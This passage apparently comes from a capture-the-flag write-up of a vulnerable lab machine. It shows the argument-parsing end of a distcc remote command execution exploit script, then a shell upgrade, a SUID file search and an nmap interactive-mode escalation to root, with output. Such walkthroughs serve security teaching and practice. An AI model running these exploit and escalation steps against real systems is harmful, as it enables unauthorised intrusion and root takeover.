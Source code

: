 
	parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

	parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
	parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
	parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

	try:
		argv = parser.parse_args()

		exploit(argv.command, argv.host, argv.port)
	except IOError:
		parse.error
	```

## Privilege Escalation

### Nmap SUID to root

Upgrade shell

```
/usr/bin/python -c "import pty; pty.spawn('/bin/sh')"
```
	
At LinEnum, I saw nmap had SUID:

```
find / -perm -u=s -type f 2>/dev/null

[+] Possibly interesting SUID files:
	-rwsr-xr-- 1 root dhcp 2960 Apr  2  2008 /lib/dhcp3-client/call-dhclient-script
	-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```

<a href='https://gtfobins.github.io/gtfobins/nmap/#shell' target="blank">GTFOBins search</a>

Check nmap version

```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 ( http://insecure.org )
```

Execute nmap to get root

```
daemon@lame:/root$ /usr/bin/nmap --interactive
/usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2#
```
